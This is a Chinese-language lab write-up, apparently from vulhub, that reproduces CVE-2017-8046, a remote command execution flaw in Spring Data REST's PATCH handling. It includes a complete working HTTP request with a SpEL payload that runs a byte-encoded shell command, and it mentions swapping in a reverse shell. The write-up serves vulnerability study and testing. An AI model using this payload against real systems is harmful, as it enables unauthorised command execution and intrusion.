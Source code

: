（CVE-2017-8046）Spring Data Rest 远程命令执行漏洞
==================================================

一、漏洞简介
------------

Spring Data REST是一个构建在Spring
Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST
API的Patch方法中（实现RFC6902），path的值被传入setValue，导致执行了SpEL表达式，触发远程命令执行漏洞。

二、漏洞影响
------------

PivotalSpringDataREST2.5.12之前的版本，2.6.7之前的版本，3.0RC3之前的版本

SpringBoot2.0.0M4之前版本

SpringDataKay-RC3之前的版本

三、复现过程
------------

访问`http://www.0-sec.org:8080/customers/1`，看到一个资源。我们使用PATCH请求来修改之：

    PATCH /customers/1 HTTP/1.1
    Host: www.0-sec.org:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json-patch+json
    Content-Length: 202

    [{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname", "value": "vulhub" }]

path的值是SpEL表达式，发送上述数据包，将执行`new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}`表示的命令`touch /tmp/success`。然后进入容器`docker-compose exec spring bash`看看：

![2.png](resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId24.png)

可见，success成功创建。

将bytecode改成反弹shell的命令（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)），成功弹回：

![1.png](resource/(CVE-2017-8046)SpringDataRest远程命令执行漏洞/media/rId26.png)

参考链接
--------

> https://github.com/vulhub/vulhub/tree/master/spring/CVE-2017-8046
